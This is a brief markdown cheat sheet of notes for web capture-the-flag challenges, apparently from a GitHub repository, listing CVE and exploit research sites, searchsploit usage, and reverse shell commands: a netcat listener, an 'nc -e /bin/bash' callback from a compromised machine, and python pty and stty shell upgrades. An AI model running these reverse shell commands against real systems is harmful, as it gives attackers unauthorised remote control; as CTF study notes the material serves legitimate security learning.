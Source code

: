 # Notes related to web based CTFs

## Useful Research link

**CVE:**\

* Identification: CVE-YEAR-IDNUMBER
* [Exploit DB](https://www.exploit-db.com/)
* [National Vulnaribility Database](https://nvd.nist.gov/vuln/search)
* [CVE Metre](https://cve.mitre.org/)
* [CVE details](https://cvedetails.com)

## ```searchsploit```

```bash
searchsploit <target technology name> 
searchsploit fuel cms
```

## Reverse shell

### ```nc```

```bash
nc -lp <port>                   # in attacker machine
nc <ip> <port> -e /bin/bash     # in compromised machine
```

### ```python```

```bash
python -c 'import pty;pty.spawn("/bin/bash")' # in compromised machine after getting nc shell
```

### ```stty```

```bash
stty raw -echo               # after backgrounding the nc shell
```

after ```fg``` type ```reset``` in the new shell